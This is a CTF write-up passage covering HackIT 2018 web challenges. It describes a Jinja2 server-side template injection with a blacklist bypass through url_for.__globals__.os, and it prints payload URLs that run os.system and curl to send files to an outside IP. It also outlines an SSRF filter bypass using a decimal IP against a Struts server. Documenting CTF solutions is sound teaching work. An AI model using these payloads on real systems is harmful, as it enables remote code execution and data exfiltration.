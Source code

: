 This is a very cool challenge. Although I didn't solve it, I learn a lot :)

### Believer Case

 (bookgin)

After a few testing we can quickly identify the vulnerabilty: Server Side Template Injection. `http://185.168.131.123/{{3*3}}` = 9

Next is to identify the backend. The error page of `http://185.168.131.123/a/b/c/` looks like Python Flask. Does the server use jinja2 to render the template?

Yes, it can be confirmed by `{{7*'7'}}` resulting 7777777. Refer to [this](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#jinja2).

However, the server will filter some words like `mro`,`+`, `|`,`class` ...., which makes RCE  a little tricky.

We first try to use `g` (flask.ctx object) and `session` to result in RCE but cannot find anything useful. A quick Google we found [this problem](https://ctftime.org/task/6505) and some solution utilizes `url_for` (jinja2 function) to RCE.

So let's try `url_for.__globals__`, and we can see the `os` module is in the global!

RCE is trivial now:

```sh
# list files
http://185.168.131.123/{{url_for.__globals__.os.system("ls -all > /tmp/abc")}}
http://185.168.131.123/{{url_for.__globals__.os.system("curl 140.112.30.52:12345 -F data=@/tmp/abc")}}
# get the flag
http://185.168.131.123/{{url_for.__globals__.os.system("curl 140.112.30.52:12345 -F data=@flag_secret_file_910230912900891283")}}
```

(The reverse shell doesn't work:( so the solution is dirty. )

Here is the flag:

`flag{blacklists_are_insecure_even_if_you_do_not_know_the_bypass_friend_1023092813}`

### PeeHPee2 

(unsolved, written by bookgin, thanks to @chmodxxx)

The hint incicates the server is running Apache Struts 2.3.14, and provide a interface to fetch the url page.

But it's not so easy to SSRF. The server side filters some words like `.`,`localhost`, `::`.

We can bypass the filter using decimal IP `http://3114828676:1234/index.html`.

and then use [Struts 2.3.14 CVE](https://github.com/bhdresh/CVE-2018-11776) to send the payload to localhost.

[Offcial writeup](https://github.com/DefConUA/HackIT2018/tree/master/web/PeeHPee2)

## Reverse
### coffee_overflow

 (sasdf)
 
[A very lengthy writeup](https://github.com/sasdf/ctf-tasks-writeup/blob/master/writeup/2018/HackIT/coffee_overflow/README.md)
